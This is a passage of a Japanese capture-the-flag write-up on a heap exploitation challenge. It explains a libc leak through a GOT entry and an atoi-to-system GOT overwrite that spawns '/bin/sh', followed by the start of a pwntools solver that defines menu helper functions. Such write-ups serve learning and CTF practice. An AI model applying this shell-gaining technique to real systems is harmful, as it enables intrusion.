 さてここで`p`を`ptr_list`の先端(具体的には`0x6020c0`), `_p`をアドレス解決済のGOTにしてみると次のようになる

```
~~ ptr_list ~~
0: func@got (*func@got = func_addr)
1: a (*a = v)
2: p (*p = _p)
```

ということでインデックス0で管理されている箇所が`func@got`になった、これをshowしてlibc中の`func`の位置を引けばlibc leak出来る。

### get a shell

今回は`func`として`atoi`を利用したがこれには理由があって、このままeditでGOT Overwriteが出来るからである。
GOT Overwriteで`atoi`が呼ばれた際に`system`の配置場所へ飛ぶようにすると選択肢の入力がそのまま`system`の引数になるので`system("/bin/sh")`が呼ばれてシェルが取れる。
もちろんOne GadgetでOverwriteしても良い(確認してないけど)。

## Code

```python
from pwn import process, p64, u64, ELF


def _select(s, sel, c=b"> "):
    s.recvuntil(c)
    s.sendline(sel)


def add(s, size, data=b"junk"):
    _select(s, b"1")
    print("[+] add")
    s.recvuntil("size: ")
    s.sendline(str(size).encode())
    s.recvuntil("data: ")
    s.sendline(data)


def edit(s, idx, size, data):
    _select(s, b"2")
    print("[+] edit")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())
    s.recvuntil("size: ")
    s.sendline(str(size).encode())
    s.recvuntil("data: ")
    s.sendline(data)


def delete(s, idx):
    _select(s, b"3")
    print("[+] delete")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())


def show(s, idx):
    _select(s, b"4")
    print("[+] show")
    s.recvuntil("item: ")
    s.sendline(str(idx).encode())
    s.recvuntil("data: ")
    return s.recvline().rstrip()


```